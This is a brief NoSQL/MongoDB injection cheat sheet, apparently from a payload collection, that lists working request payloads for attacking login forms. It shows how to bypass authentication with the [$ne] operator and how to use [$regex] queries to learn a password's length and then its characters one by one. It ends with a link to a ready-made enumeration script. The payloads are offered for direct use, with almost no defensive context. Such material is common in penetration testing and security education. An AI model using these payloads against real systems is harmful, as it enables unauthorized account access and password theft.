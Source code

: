 MongoDB_and_NoSQL_Injection

payloadallthethings

## Bypass authentication 

```username[$ne]=toto&password[$ne]=toto```

## Extract length information :
```username[$ne]=toto&password[$regex]=.{1}```
1. Increase the number until the request change
2. Same principle to search the length of a username

## Find characters in NoSQL
```username[$ne]=toto&password[$regex]=m.*```
or 
```username[$ne]=toto&password[$regex]=m.{length}```

- Ready script, or write your own :) : https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration
